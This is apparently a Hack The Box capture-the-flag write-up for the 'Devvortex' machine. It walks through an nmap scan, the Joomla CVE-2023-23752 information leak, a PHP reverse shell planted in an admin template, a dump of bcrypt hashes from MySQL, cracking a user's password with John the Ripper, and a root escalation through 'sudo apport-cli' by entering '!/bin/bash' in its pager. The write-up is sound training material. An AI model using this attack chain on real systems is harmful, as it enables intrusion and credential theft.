







# Devvortex Writeup
<figure></figure>

## Target IP Address: 10.10.11.242

Nmap Scan: 

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Ennumeration

After scanning we get the host name `devvortex.htb`

Adding the IP and URL to `/etc/hosts`

<figure></figure>

After directory and subdomain bruteforcing I found `dev.devvortex.htb`

I found some endpoints in `robots.txt`

<figure></figure>

<figure></figure>

After a little bit of searching, I found this that the page uses Joomla framework.
The application is vulnerable to this
[CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752).

I was able to gain the credentials of `lewis` through the exploit and logged into the dashboard.

<figure></figure>

On exploring the application, I can inject a php reverse shell in the administrator template.

## User Flag

Going into `System -> Administrator Templates -> Login.php`

<figure></figure>

And I caught the reverse shell.

<figure></figure>

After stabilizing the shell. I tried to open a mini instance of mysql with the credentials found previously.

```
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ mysql -u lewis -p
<htb/administrator/templates/atum$ mysql -u lewis -p                 
Enter password:

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 15397
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> select username, password from sd4fg_users;
select username, password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BI**********YWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/***********XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
Let's try to crack the password hash of `logan`.
It's visible that the format of the hash is `bcrypt`.

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/devvortex]
└──╼ $john hash --wordlist=./rockyou.txt --format=bcrypt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 0.01% (ETA: 21:26:59) 0g/s 211.3p/s 211.3c/s 211.3C/s brownie..virginia
tequieromucho    (logan)
1g 0:00:00:06 DONE (2023-12-14 23:27) 0.1483g/s 208.3p/s 208.3c/s 208.3C/s eunice..tequieromucho
Use the "--show" option to display all of the cracked passwords reliably
Session completed
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/devvortex]
└──╼ $john --show hash 
logan:tequieromucho

1 password hash cracked, 0 left
```

Now we connect via SSH to logan using the password.

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/devvortex]
└──╼ $ssh logan@devvortex.htb
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Nov 21 10:53:48 2023 from 10.10.14.23
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)

```

Here we have found the user flag :D

## Root Flag

Checking the scripts we can run as logan using `sudo -l`

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Found an exploit for `apport-cli` 
[CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC).

After running the script, 
```
logan@devvortex:/usr/bin$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

..dpkg-query: no packages found matching xorg
...................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
```

The report is showed in the Vi-Editor and I can write using the `!` command so I simply wrote `!/bin/bash` and I got root.

```
What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/usr/bin# 
```

We have rooted the machine :D

Thank you!! Happy hacking :D